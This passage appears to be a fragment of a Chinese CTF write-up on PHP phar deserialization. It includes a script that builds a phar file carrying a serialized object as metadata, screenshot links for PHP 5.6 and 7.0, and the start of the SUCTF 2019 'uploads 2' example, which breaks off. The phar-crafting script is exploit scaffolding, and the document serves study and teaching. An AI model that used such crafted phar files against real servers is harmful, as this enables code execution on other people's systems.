 

`makphar.php`:

```php
<?php 
class A{
        public $s='ls';
}

@unlink('test.phar');
$phar=new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('a','a');
$phar->setStub('<?php __HALT_COMPILER();?>');
$o=new A();
$phar->setMetaData($o);
$phar->stopBuffering();

?>
```



`php5.6`下：

[![enter description here](assets/1540438957427.png)](https://www.github.com/coomrade/Img/raw/master/pics/1540438957427.png)



php7.0`:

[![enter description here](assets/1540439032065.png)](https://www.github.com/coomrade/Img/raw/master/pics/1540439032065.png)



只需要目标表是存在的就可以了，并没有其他要求，唯一可惜的就是不是默认配置



### 例题：SUCTF 2019 uploads 2





题目源码：

class.php
